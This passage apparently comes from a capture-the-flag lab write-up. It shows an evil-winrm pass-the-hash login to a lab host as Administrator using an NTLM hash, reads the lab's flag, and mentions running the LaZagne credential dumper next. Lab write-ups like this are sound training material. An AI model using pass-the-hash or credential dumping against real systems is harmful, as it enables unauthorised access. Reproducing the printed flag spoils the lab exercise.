

└─$ evil-winrm -i 172.16.4.5 -u Administrator -H 'a569f80ccd9fda0ea5e749d20aa80657'
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
OFFSHORE{c@r3ful_who_y0u_d3legate_t0}
Running LaZagne we find something interesting
